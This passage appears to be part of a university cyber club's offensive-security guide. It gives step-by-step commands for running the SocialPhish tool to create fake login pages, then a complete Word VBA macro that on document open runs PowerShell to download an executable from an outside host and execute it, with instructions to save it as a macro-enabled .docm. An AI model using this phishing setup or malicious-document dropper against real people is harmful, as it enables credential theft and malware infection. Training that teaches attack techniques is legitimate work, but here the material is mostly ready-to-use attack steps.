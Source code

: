 > cd socialphish

> chmod +x socialphish.sh

> ./socialphish

When it says "Choose an option", type the number of the login form you want to make.

When it says "Choose a port forwarding option", just press enter.

When it says "Choose a port", just press enter.

Go to the URL it gives you. Fake login page. Pretty sweet!

For a more in-depth guide, view: <https://infosecwriteups.com/phishing-got-easier-with-socialphish-b04dcbab3900>
## Macros
### Windows
You can install microsoft office using your UML email account.
#### Word
To create a new macro in Word, follow these steps:

1. Click on the **View** tab in the menu bar.
2. Select **Macros** -> **View Macros**.
3. Enter a name for your macro and click **Create**.

Here's an example of a Word macro:

```vb
Sub AutoOpen()
    Dim exec As String
    Dim curDirectory As String
    
    'Get the current directory
    curDirectory = CurDir()
    
    'Replace any potential problematic characters (like \) for PowerShell string
    curDirectory = Replace(curDirectory, "\", "\\")

    'Build the PowerShell command to download and execute the file in the current directory
    exec = "powershell.exe -Command ""(new-object net.webclient).DownloadFile('https://umlcyber.club/open_notepad.exe', '" & curDirectory & "\\open_notepad.exe'); Start-Process '" & curDirectory & "\\open_notepad.exe'"""

    'Execute the PowerShell command
    Shell (exec)
End Sub

Sub Document_Open()
    AutoOpen
End Sub
```

When saving your file, select `Save As` and save it as a `Word Macro-Enabled Document (*.docm)` so your macros are saveed with the document.

